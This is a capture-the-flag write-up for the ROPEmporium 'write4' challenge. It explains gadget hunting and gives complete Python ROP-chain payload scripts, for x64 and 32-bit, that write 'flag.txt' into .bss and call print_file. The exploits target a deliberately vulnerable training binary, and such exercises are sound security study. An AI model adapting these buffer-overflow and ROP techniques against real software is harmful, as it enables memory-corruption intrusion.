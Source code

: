 ```yaml
---
title: "write4 | ROPEmporium [4]"
date: 2024-11-12T15:45:36+05:00
tldr: ROPEmporium - 4, write4 task writeup
toc: true
summary: "Functions themselves are in an external library we should call it from there. Imported files proves the command `rabin2 -i <binary>` "
tags: [writeup, ROPEmporium, ROP, chain, exploitation]
---
```

# write4

“write4” challenge, read the description of the task and then come here

---

Task: 

- The string `flag.txt` isn’t in binary, but we must call the function `print_file`, which prints the file’s content.

---

Functions themselves are in an external library we should call it from there. Imported files proves the command `rabin2 -i <binary>` 

![image.png](image.png)

It gives addresses.

Buffer overflow offset is the same, and `checksec`  security features of binary are also the same with the previous challenge (in short, this means that no randomization in memory will prevent us from doing ROPs)

---

## x64 - ROP Chain

We need to build the ROP chain:

- `pop rdi; ret`  - gadget to put the argument into a function
- `print_file@plt` - address to call it
- we need a section with a write permission address where we can write our string `flag.txt`
- And the gadget like  `mov [reg], reg`  to insert the flag into memory from the register
    - `[reg]`  - address which points to memory
    - `reg`  - value `flag.txt`  in binary format

## x64 - Gadgets

`pop rdi; ret`  - gadget found by command `rp++ -r3 --unique -f ./write4 | grep "pop rdi"` 

![image.png](image1.png)

`print_file@plt`  - addresses got by command `rabin2 -i ./write4` 

![image.png](image2.png)

---

we should place the string `flag.txt`  into memory, we search the sections with the command `readelf -S <binary>` which has permission write ( `W`  flag) in which we can write and read. One of them is `.bss` section.

![image.png](70544342-a83b-4b93-8819-d06197c489dc.png)

1. address of `.**bss**` 
2. **`.bss`** write and read(it is actually default permission for ELF sections) permissions is `.bss` section

We need a gadget to write the string `mov [reg], reg`

![image.png](image3.png)

Fortunately, we have one at address `0x400628`, in register `r14` will be the address where we will write (in our case `.bss` section’s address) and put the string itself in the `r15` register.

## x64 - More gadgets

We need one more gadget to put our address and value into `r14` and `r15`  registers.

![image.png](image4.png)

`pop r14;  pop r15;  ret;`  - this gadget fits excellent. 

- **`r14`** -  address `.bss`  writable section address `0x601038`
- **`r15`** - value b’flag.txt` which is 8 bytes and fits well in one slot

## x64 - Payload

```jsx
from struct import pack

pop_r14_r15      = 0x00400690
writable_section = 0x00601038
mov_ptr          = 0x00400628
pop_rdi          = 0x400693
print_plt        = 0x0000000000400510
ret = 0x4004e6

payload = b'A' * 40

# Write "flag.txt" to writable memory
payload += pack('<Q', pop_r14_r15)  # pop r14; pop r15; ret
payload += pack('<Q', writable_section)  # r14 = writable section
payload += b'flag.txt'  # r15 = "b flag.txt"
payload += pack('<Q', mov_ptr)  # mov qword ptr [r14], r15; ret

payload += pack('<Q', pop_rdi)
payload += pack('<Q', writable_section)
payload += pack('<Q', ret)
payload += pack('<Q', print_plt)

# Output the payload
with open("payload", "wb") as f:
    f.write(payload)

print("Payload written to 'payload'")
```

## x64 - Result

![image.png](image5.png)

# write4 32-bit

Here, because of address size is different, our string `flag.txt`  doesn't fit in our one 4-byte stack slot, which means we should divide it into two slots `flag` and `.txt` 

Here if we search for the gadget for inserting strings into memory with the same command `rp++ -r2 --unique -f ./write432 | grep "move"` , we find the same functionality gadget but with different registers

![image.png](image6.png)

`mov [edi], ebp; ret`  - gadget

- `edi`  - address writable section `.bss`
- `ebp`  - value

We insert the strings one by one if the `.bss`  section address is equal to `0x0804a020` , we put our first string `flag` at address `0x0804a020`, and the second string will be inserted at address `0x0804a020 + 4` because one stack slot size is 4-byte.

## x86-32 - Payload

```jsx
from struct import pack

pop_ebx          = 0x0804839d 
writable_section = 0x0804a020
mov_ptr          = 0x08048543 # mov  [edi], ebp ; ret ;
pop_edi_pop_ebp  = 0x080485aa # pop edi ; pop ebp ; ret ;
print_plt        = 0x080483d0 # print@plt 

payload = b'A' * 44

flag_part1 = b'flag'
flag_part2 = b'.txt'

# Write "flag.txt" to writable memory
payload += pack('<I', pop_edi_pop_ebp)
payload += pack('<I', writable_section)  # edi = writable section
payload += flag_part1           # b'flag' = ebp 
payload += pack('<I', mov_ptr)  # mov  [edi], ebp ; ret ;

payload += pack('<I', pop_edi_pop_ebp)                         
payload += pack('<I', writable_section + 4)  # edi = writable section
payload += flag_part2           # b'.txt' = ebp             
payload += pack('<I', mov_ptr)  # mov  [edi], ebp ; ret ;

payload += pack('<I', print_plt)
payload += pack('<I', 0x0)
payload += pack('<I', writable_section)

# Output the payload
with open("payload", "wb") as f:
    f.write(payload)

print("Payload written to 'payload'")
```

## x86-32 - Result

![image.png](image7.png)
